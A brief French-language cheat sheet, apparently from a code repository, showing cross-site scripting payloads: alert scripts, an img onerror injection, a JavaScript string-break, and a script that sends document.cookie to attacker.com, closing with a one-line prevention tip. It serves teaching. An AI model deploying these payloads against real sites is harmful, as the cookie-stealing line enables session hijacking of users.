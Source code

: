# XSS (Cross-Site Scripting) Examples

Les injections XSS permettent d'exécuter du JavaScript malveillant dans le navigateur de la victime.

```html
<!-- XSS basique -->
<script>alert('XSS')</script>

<!-- XSS via attribut HTML -->
<img src=x onerror="alert(1)" />

<!-- XSS blind via code JavaScript -->
<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
```

```javascript
// XSS dans un contexte JS
var data = '...'; // payload
console.log('User data: ' + data); // If data contient: ');alert(1);('
```

> **Prévention** : Échappez/encodez les sorties, utilisez CSP et sanitize inputs.
